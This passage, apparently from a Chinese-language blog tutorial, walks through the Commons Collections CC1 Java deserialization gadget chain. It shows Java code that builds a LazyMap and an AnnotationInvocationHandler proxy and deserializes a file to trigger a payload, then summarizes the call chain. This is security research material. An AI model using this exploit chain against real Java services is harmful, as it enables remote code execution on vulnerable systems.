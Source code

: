 ```java
        map.put("value", "Roderick");
        Map tmap = LazyMap.decorate(map, transformerChain);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, tmap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, proxyMap);



/*        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("uf9n1x.bin"));
        oos.writeObject(handler);*/
        //反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("uf9n1x.bin"));
        ois.readObject();
    }
}
```

![图片.png](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/1684817437199-bd309a0d-e65d-447e-bb44-0c3a55e6d297.png)

### 小结

小结部分主要来整理一下链子和我们的攻击思路。

```java
调用链 
    InvokeTransformer#transform
        LazyMap#get
            AnnotationInvocationHandler#readObject
            

辅助链
ChainedTransformer
ConstantTransformer
HashMap
Map(Proxy)#entrySet
```

![](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/1667299650951-c3ec29ef-7f7c-4d33-b777-64e39851b31f.jpeg)

![](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/1667300836342-a1d9b36c-9624-4ad9-a651-5f7de0e4d75b.jpeg)

## Refer
